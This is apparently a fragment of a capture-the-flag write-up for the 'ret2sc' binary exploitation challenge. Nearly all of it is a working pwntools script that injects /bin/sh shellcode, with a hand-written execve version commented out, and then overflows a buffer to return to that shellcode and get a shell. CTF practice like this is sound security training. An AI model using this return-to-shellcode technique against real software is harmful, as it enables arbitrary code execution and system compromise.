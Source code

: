 ![image-20211228222835433](/assets/img/2022/image-20211228222835433.png)

exp:

```python
from pwn import *


r = process("./ret2sc")
context(arch='amd64', os='linux')

r.recvuntil("message:")

# sc = """
# mov rbx, 0x68732f6e69622f
# push rbx
# mov rdi, rsp
# xor rsi, rsi
# xor rdx, rdx
# mov rax, 0x3b
# syscall
# """
# sc = asm(sc, arch="amd64")
r.send(asm(shellcraft.sh()))

r.recvuntil("name:")
p = "a"*0x18 + p64(0x601060)
r.send(p)

r.interactive()
```